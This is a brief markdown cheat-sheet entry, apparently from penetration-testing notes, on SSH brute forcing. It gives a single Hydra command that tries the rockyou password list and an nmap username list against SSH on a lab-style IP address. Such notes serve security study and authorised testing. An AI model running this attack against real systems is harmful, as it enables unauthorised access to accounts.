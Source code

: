 # Brute Forcing

## SSH

### [Hydra][1]

```bash
hydra -L /usr/share/nmap/nselib/data/usernames.lst -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ssh -I -V -o ssh-accounts.hydra
```

[1]: https://www.kali.org/tools/hydra/
